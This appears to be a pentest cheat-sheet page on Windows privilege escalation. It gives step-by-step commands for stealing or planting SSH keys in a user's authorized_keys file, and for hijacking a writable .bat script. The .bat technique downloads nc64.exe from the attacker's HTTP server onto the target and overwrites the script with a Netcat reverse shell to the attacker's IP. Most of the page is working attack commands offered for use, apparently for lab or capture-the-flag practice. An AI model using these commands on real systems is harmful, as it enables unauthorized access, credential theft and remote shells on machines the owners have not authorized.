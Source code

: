 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Windows Privilege Escalation

Here are some techniques for achieving privilege escalation on _Windows_ systems:

## <mark style="color:orange;">Abusing SSH keys</mark>

* Check if we have reading permissions on the SSH private keys of a user

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On the target machine
type C:\Users\$user\.ssh\$keyfile    #For a user
```
{% endcode %}

{% hint style="info" %}
Standard key files are called _id\_rsa_
{% endhint %}

***

* Copy the keys to a file, assign permissions to the file, and use it to log in using the key

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>#On our machine
</strong><strong>nano $filename #Copy here the keys
</strong><strong>chmod 600 $filename
</strong>ssh $username@$IP -i $filename
</code></pre>

{% hint style="info" %}
Use `chmod 600 id_rsa` to assign restrictive permissions and the SSH does not block this method
{% endhint %}

***

* When having writing permissions on the `.ssh/` directory of a user, we can generate an SSH key with the current user and pass it to the system

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh-keygen -f $keyfile
```
{% endcode %}

{% hint style="info" %}
This will generate the file with a private key for the user and a `.pub` file with a public key
{% endhint %}

***

* Pass the public key to the authorized keys file of the _root_ user

{% code overflow="wrap" lineNumbers="true" %}
```bash
type $keyfilename.pub > C:\Users\$user\.ssh\authorized_keys
```
{% endcode %}

***

* Use this to log in to the user using the key

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>ssh $username@$IP -i $keyfile 
</strong></code></pre>

## <mark style="color:orange;">Abusing .bat files with full control permissions</mark>

In the situation where a _.bat_ file (script file for Windows) is being executed on the system and it has full-control permissions, it's possible to abuse this to modify the content of the _.bat_ file and execute commands with privileges arbitrarily

* Try spawning a PowerShell from the _CMD_ with any user we have access

{% code overflow="wrap" lineNumbers="true" %}
```powershell
...> powershell
PS ...>            #If it worked the command line will look like this
```
{% endcode %}

***

* Find a _.bat_ file, and check if it has full-control permissions. In case it has, check if it is calling any process and if any of them is still running

<pre class="language-powershell" data-overflow="wrap" data-line-numbers><code class="lang-powershell"><strong>icacls $batFile #Check permissions
</strong><strong>cat $batFile    #Check the content to know if is calling any process
</strong><strong>ps              #Check if called processes are still running
</strong></code></pre>

***

* Download and import a _Netcat_ executable for _Windows_

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# In our machine
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe #Get NC executable
python3 -m http.server $myPort #On the folder where we have the executable

# In the target machine
wget http://$myIP:$myPort/nc64.exe -outfile nc64.exe
```
{% endcode %}

***

* Set _Netcat_ listener to catch the connection and replace the content of the _.bat_ file with a command spawning the _Netcat_ executable

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# In our machine
nc -nvlp $ncPort

# In the target machine
echo $ncFilePath -e cmd.exe $myIP $ncPort > $batFilePath
```
{% endcode %}

{% hint style="info" %}
Then we just had to wait for the system to run again the script, now executing our payload
{% endhint %}
